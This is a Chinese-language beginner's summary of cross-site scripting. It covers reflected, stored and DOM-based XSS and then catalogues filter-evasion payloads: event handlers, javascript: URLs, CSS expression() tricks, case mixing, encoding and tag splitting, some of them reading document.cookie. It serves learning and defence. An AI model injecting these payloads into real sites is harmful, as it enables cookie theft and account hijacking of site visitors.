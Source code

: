 ## XSS初学总结

### 0x00 引言
学习Web安全，必然是从SQL注射和XSS开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改URL参数、js分析。

### 0x01 XSS分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到URL地址的参数中，原理如下：发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行XSS代码——完成攻击(获取cookies、url、浏览器信息、IP等)。反射型XSS的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```
![反射xss](./static/xss_reflection.png)
2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意Javascript代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```

3、DOM XSS。前面两种XSS一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用`document.location`、`document.URL`、`document.referrer`等对象获取数据。
举个例子，有如下HTML代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```
![持久xss](./static/xss_persistent.png)
通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了XSS，弹出了cookie。

4、最后贴一张比较图。
![xss](./static/xss.png)

### 0x02 XSS构造剖析
现实中大多数的网站都有一个XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用<>标记注射html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用html标签属性值执行XSS。很多html标记中的属性都支持javascript:[code]伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc`等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
`<img src="javascript:alert('XSS');">`
３、空格回车Tab。javascript结束一条语句的方式有两种，一种是分号`;`，另一种是当javascript引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```
<img src="ja    vas
cript:
ale rt('XSS')>
```
４、进行各种转码。常用的URL编码，unicode编码，HTML编码，CSS编码等。
５、产生事件法。javascript和html通过事件来进行交互，事件能让javascript代码运行，也就能执行跨站脚本。
例如：
`<img src="#" onerror=alert('XSS')>`
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用CSS跨站。这一方法灵活多变而且隐蔽，可以嵌入到html中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用expression执行javascript：
```
<div style="width: expression(alert('XSS'));">
<img src="#" style="xss:expression(alert('XSS'));">
<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`

### 0x03 结尾
这个坑就先填到这儿，以后技术有提高再来补充。。。

参考资料：
《XSS跨站脚本攻击剖析与防御》
[freebuf/black-hole](http://www.freebuf.com/author/black-hole)
[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

